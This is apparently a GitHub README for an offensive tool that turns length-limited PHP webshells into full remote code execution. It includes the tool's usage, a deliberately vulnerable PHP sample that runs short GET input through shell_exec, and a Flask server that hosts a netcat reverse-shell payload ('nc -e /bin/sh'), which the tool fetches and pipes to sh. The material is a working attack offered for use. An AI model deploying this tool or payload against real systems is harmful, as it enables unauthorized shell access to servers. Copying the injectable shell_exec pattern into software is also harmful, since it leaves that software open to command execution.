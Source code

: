 # Description
Tool to RCE in limited input length webshells.  
It pipes the payload to sh, you can customize it with a few changes in the source code (python is already done, just uncomment it), also you could modify it to execute commands directly.

# Usage
```
python3 lentool.py -t http://targetexample.com/?start -u http://myserverexample.com
--target, -t: Target URL with param.  
--url, -u: Web server hosting the payload.
```
In the extras folder you can find an example using flask to host the payload.
 # POC
 Vulnerable application:
 ```php
 <?php
 
$sandbox = '/home/estse/sandbox/';
@mkdir($sandbox);
@chdir($sandbox);

if (!isset($_GET['start'])){
	show_source(__FILE__);
	exit;
}

// This will return output only for id and ps.
if (strlen($_GET['start']) < 5){
	echo shell_exec($_GET['start']);
} else {
	echo "Please enter a valid command";
}

?>
 ```
 Flask server to host the payload:
 ```python
 from flask import Flask, Response
 
app = Flask(__name__)
 
@app.route('/')
def i():
    return Response("nc -e /bin/sh 127.0.0.1 1234", headers={'Content-Type': 'text/plain'}, status=200)
 
if __name__ == '__main__':
    app.run(host='0.0.0.0',port=4321)
 ```
 Run:
 ```
 python3 lentool.py -t http://127.0.0.1:1808?start -u 127.0.0.1:4321
 ```
 ![2022-02-17_15-40-38 (online-video-cutter com)](https://user-images.githubusercontent.com/40002393/154507056-1b5bea67-38ca-4b2d-bede-90d4069ca52d.gif)
